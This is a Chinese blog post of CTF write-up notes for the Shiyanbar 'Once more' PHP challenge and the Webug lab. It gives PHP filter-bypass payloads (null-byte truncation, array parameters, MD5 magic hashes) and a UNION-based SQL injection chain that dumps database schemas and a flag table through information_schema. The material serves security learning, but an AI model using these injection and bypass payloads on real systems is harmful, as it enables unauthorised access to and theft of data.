 <!--yml
category: 未分类
date: 2022-04-26 14:55:23
-->

# CTF题解_greedy-hat的博客-CSDN博客_ctf题解

> 来源：[https://blog.csdn.net/qq_41638851/article/details/99221512](https://blog.csdn.net/qq_41638851/article/details/99221512)

# 实验吧

## Once more

[点击这里](https://www.jianshu.com/p/1e93f5eed20a)

*   %00截断漏洞 `?password=1e7%00*-*`
*   数组漏洞`?password[]=9999999`

1.  ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字母的字符是大小写敏感的。可选的输入参数规则包含一个数组的所有匹配表达式,他们被正则表达式的括号分组。
2.  题中ereg()正则限制了password的形式，只能是一个或者多个数字、大小写字母
3.  strpos() 函数查找字符串在另一字符串中第一次出现的位置（区分大小写）
4.  ereg函数存在**NULL截断漏洞**，导致了正则过滤被绕过,所以可以使用%00截断正则匹配
5.  ereg()**只能处理字符串的，遇到数组做参数返回NULL**，判断用的是`===`，要求类型也相同，而NULL跟FALSE类型是不同的,strpos()的参数同样不能为数组，否则返回NULL，而判断用的是 `!==`，所以这里的条件成立，也能得到flag
6.  **%00截断即遇到%00则默认为字符串的结束**
7.  **当password为数组时它的返回值不是FALSE**

1.  vim编辑器在对某个文件编辑后，如果非正常退出，会产生一个该文件的临时文件，名字为**.原文件名.swp**。（还有一种获取源码的方式是其备份文件名：原文件名~）

1.  240610708，aabg7XSs，aabC9RqS（mod5加密后第一个字符为0）
2.  a:2:{s:4:“user”;b:1;s:4:“pass”;b:1;} （序列化）

1.  知识点：当空格被过滤时，通常用()或者/**/代替空格

1.  直接拿sqlmap跑，但笔者在跑字段名不行，跑字段内容还是OK的

## Webug 显错注入

[点击这里](https://blog.csdn.net/ONS_cukuyo/article/details/88037625)
mysql版本大于15，mysql自带information_schema数据库，在SQL注入中可以通过这个数据库获取到各个数据库及其表和字段的信息。

```
SELECT NAME FROM USER;
SELECT GROUP_CONCAT(NAME) FROM USER;

url:id=3' UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.SCHEMATA %23

url:id=3' UNION SELECT 1,GROUP_CONCAT(table_name) FROM information_schema.TABLES WHERE table_schema='webug' %23

url:id=3' UNION SELECT 1,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE table_name='flag' AND table_schema='webug' %23

url:id=3' UNION SELECT 1,GROUP_CONCAT(id) FROM flag %23

url:id=3' UNION SELECT 1,flag FROM flag where flag.id=1 %23 
```

# CTF脚本

[点这里](https://blog.csdn.net/qq_41638851/article/details/100866686)

# CTFPHP

[点这里](https://blog.csdn.net/qq_41638851/article/details/100828827)

# 学习链接

[点这里](https://blog.csdn.net/qq_41638851/article/details/100592449)